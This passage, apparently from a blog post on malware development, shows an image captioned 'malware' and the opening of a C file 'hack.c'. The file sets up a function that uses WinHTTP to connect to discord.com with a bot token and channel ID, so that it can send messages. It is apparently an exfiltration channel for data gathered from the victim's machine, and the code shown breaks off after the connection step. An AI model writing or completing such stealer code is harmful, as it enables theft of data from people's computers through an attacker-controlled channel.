 ![malware](/assets/images/127/2024-07-02_17-26.png){:class="img-responsive"}    

The full source is looks like this (`hack.c`):    

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <winhttp.h>
#include <iphlpapi.h>

#define DISCORD_BOT_TOKEN "your discord bot token" // replace with your actual bot token
#define DISCORD_CHANNEL_ID "your discord channel id" // replace with the channel ID where you want to send the message

// function to send a message to discord using the discord Bot API
int sendToDiscord(const char* message) {
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;
  HINTERNET hRequest = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"discord.com", INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
    return 1;
  }

```